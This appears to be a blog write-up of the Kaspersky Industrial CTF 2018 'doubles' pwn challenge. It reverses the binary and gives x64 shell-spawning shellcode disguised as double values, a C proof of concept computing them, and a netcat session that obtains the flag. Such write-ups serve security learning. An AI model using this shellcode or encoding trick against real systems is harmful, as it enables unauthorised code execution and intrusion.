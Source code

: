 ```yaml
---
layout: page
title: "Kaspersky Industrial CTF 2018 Writeup: doubles"
---
```


> doubles
>
> 635
>
> nc doubles.2018.ctf.kaspersky.com 10001
> 
> [doubles]({{ site.baseurl }}/ctfs/kasp2018/dubles/doubles)

This is a pwning challenge on a x64 Linux executable:

```
$ file doubles
doubles: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter 
/lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e5511e0c31ccc63eda7398cbbfdf1d479f4854cd, not stripped
```

The file is pretty small and disassembly reveals the following steps:

- Allocate ```0x1000``` bytes of memory with read/write/execute permissions
- Ask user for a number of inputs ```n``` (between 0 and 6) and then read ```n``` double values from input
- Put each 8-byte double value sequentially at the beginning of allocated memory area
- Put byte sequence ```31C0909090909090``` at offset ```0x70``` in the allocated memory. It decompiles to the following:

```
0:  31 c0                   xor    eax,eax
2:  90                      nop
3:  90                      nop
4:  90                      nop
5:  90                      nop
6:  90                      nop
7:  90                      nop 
```
- Put the sum of all entered doubles divided by ```n``` at offset ```0x78``` in the allocated memory area
- Zero out all registers and jump to offset ```0x70``` in the allocated memory:

```
4008C1 31 DB                                         xor     ebx, ebx
4008C3 31 C9                                         xor     ecx, ecx
4008C5 31 D2                                         xor     edx, edx
4008C7 31 FF                                         xor     edi, edi
4008C9 31 F6                                         xor     esi, esi
4008CB 31 ED                                         xor     ebp, ebp
4008CD 31 E4                                         xor     esp, esp
4008CF 31 E4                                         xor     esp, esp
4008D1 4D 31 C0                                      xor     r8, r8
4008D4 4D 31 C9                                      xor     r9, r9
4008D7 4D 31 D2                                      xor     r10, r10
4008DA 4D 31 DB                                      xor     r11, r11
4008DD 4D 31 E4                                      xor     r12, r12
4008E0 4D 31 ED                                      xor     r13, r13
4008E3 4D 31 F6                                      xor     r14, r14
4008E6 4D 31 FF                                      xor     r15, r15
4008E9 FF E0                                         jmp     rax
```

So the intent is fairly clear now - accept a bunch of double values from the user that, when stored, become the shellcode that exploits the application.

Unfortunately there are several complications here:

- Not every byte sequence represents a valid double value, so we will have to play with the commands in our shellcode to make them combine into valid doubles
- Before control is transferred to the shellcode all registers are cleared, including the ```esp``` - and we need valid stack for the shellcode to work
- The bytes at offset ```0x78``` are composed from all other double values, and at the same time they have to become a ```jmp``` to our shellcode

Max possible bytes we can input is ```6*8 = 48``` which is plenty for a x64 shellcode - we will use a [common short variant](https://www.exploit-db.com/exploits/36858/) for our purposes.

We have to add additional commands into the code so that it could be represented as valid doubles, so after some experimentation we arrive at the following working example that fits into 5 8-byte sequences:

```
0:  31 f6                   xor    esi,esi         ; filler code
2:  31 f6                   xor    esi,esi         ; filler code
4:  48 8d 25 ff 05 00 00    lea    rsp,[rip+0x5ff] ; allocate stack about mid-way through the memory area
b:  90                      nop                    ; filler code
c:  90                      nop                    ; filler code
d:  31 f6                   xor    esi,esi
f:  48 bb 2f 62 69 6e 2f    movabs rbx,0x68732f2f6e69622f ; load /bin//sh into rbx
16: 2f 73 68
19: 56                      push   rsi
1a: 53                      push   rbx
1b: 54                      push   rsp
1c: 5f                      pop    rdi
1d: 6a 3b                   push   0x3b
1f: 58                      pop    rax
20: 66 31 c9                xor    cx,cx           ; filler code
23: 31 d2                   xor    edx,edx
25: 0f 05                   syscall
27: ff                      .byte 0xff             ; filler junk byte
``` 
 
We can now come up with 6th double that will produce a valid ```jmp``` at offset ```0x78``` when combined with other doubles. For the ```jmp``` to be valid let us try for the following value ```j``` at that location: ```eb869090909090ff```, which decompiles to:

```
0:  eb 86                   jmp    0xffffffffffffff88 ; jump 122 bytes back
2:  90                      nop
3:  90                      nop
4:  90                      nop
5:  90                      nop
6:  90                      nop
7:  ff                      .byte 0xff 
```

Formula for 6th double becomes pretty simple:

```
d6 = j*6 - (d1+d2+d3+d4+d5)
```

Python's handling of long doubles is not very predictable, so let's write a piece of C code as our PoC:

```c
#include <stdio.h>
int main()
{
  char dc1[] = {0x31,0xf6,0x31,0xf6,0x48,0x8d,0x25,0xff};
  double d1 = *(double*)dc1;
  char dc2[] = {0x05,0x00,0x00,0x90,0x90,0x31,0xf6,0x48};
  double d2 = *(double*)dc2;
  double d3 = *(double*)"\xbb\x2f\x62\x69\x6e\x2f\x2f\x73";
  double d4 = *(double*)"\x68\x56\x53\x54\x5f\x6a\x3b\x58";
  double d5 = *(double*)"\x66\x31\xC9\x31\xd2\x0f\x05\xff";
	
  double j = *(double*)"\xeb\x86\x90\x90\x90\x90\x90\xff";
	
  printf("d1 = %lf\n\nd2 = %lf\n\nd3 = %lf\n\nd4 = %lf\n\nd5 = %lf\n\nj = %lf\n\n",d1,d2,d3,d4,d5,j);
   
  printf("sum = %lf\n\nj*6 = %lf\n\nd6 = %lf\n",d1+d2+d3+d4+d5,j*6,j*6-(d1+d2+d3+d4+d5));
   
  return 0;
}
```

When run we get the following values:

```
d1 = -29559091864572820292681211914927464797860470802238602797975133423556597190524648032648549717921251541252207615662565262295374628003076419760662954965978663312650403503266161258034199495885073994787156264246210982573198769108759875107127168181815354450326757138884460293640370406304322547625947123628900352.000000

d2 = 30933380527999897844181710530453929767993344.000000

d3 = 6813905293115760542120164628744098873719246634693038997721476826910022503981551850256229588569116520719267474398463574052616707022645722479718377571242630801186886685030914191052826781635181654745781180865715668825202440012912092967881823496437760.000000

d4 = 1080226375091073528021226343805715536002313604560130468987472238944077983639024984304711725399647812346738966255370240.000000

d5 = -7221728359051669221104524211471986207229634050470487507184666147640458850386807544095578717721216606254177370818620670478590545335985432672572436948742881130607592737182467980735839261026849649608088362430955077272509753119169582149912145378930118483238742739000059656808347887105107420583218873446170624.000000

j = -2908033012275735465345584273188774480244846208973146967303899150349685107885671012220806655752397208130581049387909425120052463248269430708062761141130806637840019732542185668620969062492161721433352994196491003929461564535255972897316734923212121386921972473231415147003098792468167203464949561206583066624.000000

sum = -36780820223624487077457233276399680916744507883912012586103085172445174323934841273506955744035942531102618515978621126447736115486894806568442925613948032798761172162285274355950613767793666176697830754163753971645810152423334738835639832212026736496974596010643116743514017517340043197752018499096543232.000000

j*6 = -17448198073654411544673312179932764596236131605814778011666357129937147208221999550067407516411842133184757863430143369881285501869307056765602824100788801865057744467233476311722268780524422505139042062452079034418421421871583341552143875088728735265997292059360892440068025957461477194315637848274492194816.000000

d6 = -17411417253430787730022521733256301459702771861318859449539907218820221387783610256487360223551207260781094790772872635300876985721018266617717101874188343046140106740644276985024479463753267900046830460511617016789947561785228149097614492108763079785999406930708876608438489354139287899764058539217469308928.000000
```

Now armed with these values we can simply paste them in our netcat session and get the flag:

```
$ nc -vv doubles.2018.ctf.kaspersky.com 10001
Connection to doubles.2018.ctf.kaspersky.com 10001 port [tcp/*] succeeded!
n: 6
-29559091864572820292681211914927464797860470802238602797975133423556597190524648032648549717921251541252207615662565262295374628003076419760662954965978663312650403503266161258034199495885073994787156264246210982573198769108759875107127168181815354450326757138884460293640370406304322547625947123628900352.000000
30933380527999897844181710530453929767993344.000000
6813905293115760542120164628744098873719246634693038997721476826910022503981551850256229588569116520719267474398463574052616707022645722479718377571242630801186886685030914191052826781635181654745781180865715668825202440012912092967881823496437760.000000
1080226375091073528021226343805715536002313604560130468987472238944077983639024984304711725399647812346738966255370240.000000
-7221728359051669221104524211471986207229634050470487507184666147640458850386807544095578717721216606254177370818620670478590545335985432672572436948742881130607592737182467980735839261026849649608088362430955077272509753119169582149912145378930118483238742739000059656808347887105107420583218873446170624.000000
-17411417253430787730022521733256301459702771861318859449539907218820221387783610256487360223551207260781094790772872635300876985721018266617717101874188343046140106740644276985024479463753267900046830460511617016789947561785228149097614492108763079785999406930708876608438489354139287899764058539217469308928.000000
cat flag.txt
KLCTF{h4ck1ng_w1th_d0ubl3s_1s_n0t_7ha7_t0ugh}
```

The flag is ```KLCTF{h4ck1ng_w1th_d0ubl3s_1s_n0t_7ha7_t0ugh}```.
